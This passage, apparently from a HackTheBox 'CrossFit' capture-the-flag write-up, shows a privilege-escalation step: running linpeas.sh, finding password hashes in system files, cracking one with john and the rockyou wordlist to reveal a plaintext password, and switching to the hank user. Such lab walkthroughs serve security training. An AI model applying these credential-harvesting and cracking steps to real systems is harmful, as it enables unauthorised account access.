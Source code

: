 I ran `linpeas.sh`, and it picked up on a few interesting things:

![](../../../.gitbook/assets/htb-crossfit-image-13.png)

There's a cronjob by the user `isaac`, but I cannot read the PHP files so I won't worry about that yet. 

At the very bottom of the output are these 2 hashes:

```
/etc/ansible/playbooks/adduser_hank.yml:$6$e20D6nUeTJOIyRio$A777Jj8tk5.sfACzLuIqqfZOCsKTVCfNEQIbH79nZf09mM.Iov/pzDCE8xNZZCM9MuHKMcjqNUd8QUEzC1CZG/                                          
/var/www/ftp/database/factories/UserFactory.php:$2y$10$92IXUNpkjO0rOQ5byMi.Ye4oKoEa3Ro9llC/.og/at2.uheWG/igi
```

There is a `hank` user on this box:;

```
www-data@crossfit:/dev/shm$ ls -la /home
total 16                           
drwxr-xr-x  4 root  root  4096 Sep 21  2020 .   
drwxr-xr-x 18 root  root  4096 Sep  2  2020 ..
drwxr-xr-x  6 hank  hank  4096 Sep 21  2020 hank
drwxr-xr-x  7 isaac isaac 4096 Sep 21  2020 isaac
```

It can be cracked using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash      
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
powerpuffgirls   (?)     
1g 0:00:00:07 DONE (2024-03-10 12:37) 0.1335g/s 3178p/s 3178c/s 3178C/s tajmahal..231990
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

I can then `su` to `hank`:

![](../../../.gitbook/assets/htb-crossfit-image-14.png)

